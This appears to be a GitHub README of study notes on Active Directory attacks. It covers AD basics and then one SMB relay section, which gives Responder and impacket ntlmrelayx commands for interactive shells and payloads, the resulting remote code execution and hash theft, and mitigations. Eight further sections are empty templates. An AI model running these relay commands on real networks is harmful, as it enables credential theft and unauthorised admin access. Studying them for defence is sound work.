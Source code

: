 # Active Directory attacks
## AD_overvire

>Active Directory (AD) is a Microsoft product that consists of several services that run on Windows Server to manage permissions and access to networked resources. Active Directory stores data as objects. An object is a single element, such as a user, group, application or device, such as a printer.

[logo]: img/active.png
![alt text](img/active.png "active direcorty")

* ayad.tshoot.com called `FQDN` fully qualified domain name

* hostname      vs      netbios name

```console
both of them is a way to identifi machines inside my network
have dots             dots not allowd
modern                old
tshoot.com            TSHOOT
```

* important files

```console

C:\windows\NTDS    → users and groups database 
                   → ntds.dit is the file contains users and groups
C:\windows\NTDS    → logs
C:\windows\SYSVOL  → groups policy

```

* local admin or doamin admin is only who can put out computer from domain
* password can't be changed before passing 24-hour and maximum duration is 42-day
* user can't use the same pass before using 24 different pass
* some users leave their passwords in the description

* name resolution methods
[logo]: img/name.png
![alt text](img/name.png "name resolution")

* remote managent methods
[logo]: img/remote.png
![alt text](img/remote.png "remote resolution")

## smbrelay attack
### attack vector
  smb signing enable but not require
  
  pssed `NTLMv2` must be at least local admin
### tools
respnder

ntlmrelayx.py from impacket lib
### reproduce
responder -I eth0 -rwdv `disable smb and http from /etc/respnder/Responder.conf`

python /usr/share/doc/python-impacket/examples/ntlmrelayx.py -tf target.txt -smb2support  -i

>-tf         target file
>-smb2support force ntlmrelay to use smbv2
>-i           get interactive shell
>-e           payload to run after exploit
>-c           command

[logo]: img/responder.png
![alt text](img/responder.png "hashes dumped")
### payoff
we get rce as local administartor
we get local user `NTLMv2` hashes
### metigation
Enable smb siging on all devices
Disable NTLM auth and move to kerberos
Account tiering
local admin restriction
---
## smbrelay attack
### idea
### tools
### reproduce
### metigation

---
## smbrelay attack
### idea
### tools
### reproduce
### metigation

---
## smbrelay attack
### idea
### tools
### reproduce
### metigation

---
## smbrelay attack
### idea
### tools
### reproduce
### metigation

---
## smbrelay attack
### idea
### tools
### reproduce
### metigation

---
## smbrelay attack
### idea
### tools
### reproduce
### metigation

---
## smbrelay attack
### idea
### tools
### reproduce
### metigation

---
## smbrelay attack
### idea
### tools
### reproduce
### metigation









